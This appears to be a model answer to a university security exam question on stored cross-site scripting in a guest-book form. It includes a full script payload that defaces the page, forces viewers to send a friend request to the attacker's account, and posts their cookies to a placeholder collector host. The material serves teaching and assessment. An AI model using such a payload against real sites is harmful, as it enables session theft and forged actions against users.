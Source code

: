 \documentclass[11pt,a4paper]{article}
\begin{document}
\clearpage
\subsection{S67 · 2018–19 · Q12(a)}\label{s67}

\textbf{Stored XSS in a guest book; malicious page actions · 15 marks}


Original: \href{../../CSE405-Security_Merged.pdf\#page=30}{root question PDF,\allowbreak{} page 30}. Sitting date: 24 October 2019. Printed Section B.



\begin{quote}\small

\textbf{Question summary:} As Sammy (id=\allowbreak{}40),\allowbreak{} write a script in the guest-book Message field to demonstrate XSS damage. The first paragraph has id p1 and the friend-add action for user id 100 is \nolinkurl{http://vulnerable.com/action/friend/add?id=100}.



\end{quote}

This is a \textbf{stored XSS} exercise: the guest-book Message is saved and later inserted into HTML without appropriate escaping. Each viewer runs the injected script as vulnerable.\allowbreak{}com,\allowbreak{} not as Sammy’s separate origin.


A representative payload for the deliberately vulnerable exam site is:



\begin{Verbatim}[breaklines=true,breakanywhere=true,fontsize=\small,frame=single,rulecolor=\color{PanelBorder}]
<script>
// 1. Deface the trusted page.
const p = document.getElementById('p1');
if (p) p.textContent = 'This guest book has an XSS vulnerability.';

// 2. Make the viewer send a friend request to Sammy (id 40).
new Image().src = '/action/friend/add?id=40';

// 3. Demonstrate export of script-readable cookie data.
// collector.example is a placeholder, not a configured service.
fetch('https://collector.example/receive', {
  method: 'POST', mode: 'no-cors', body: document.cookie
});
</script>
\end{Verbatim}

The supplied friend-add example uses id=\allowbreak{}100 to explain the endpoint’s format. Change it to \textbf{40} to benefit Sammy,\allowbreak{} whose id the question provides. \texttt{p1} is the exact supplied DOM element identifier. The image-generated GET carries the viewer’s applicable cookies under the paper’s vulnerable behavior,\allowbreak{} making the action occur as that viewer.
\end{document}
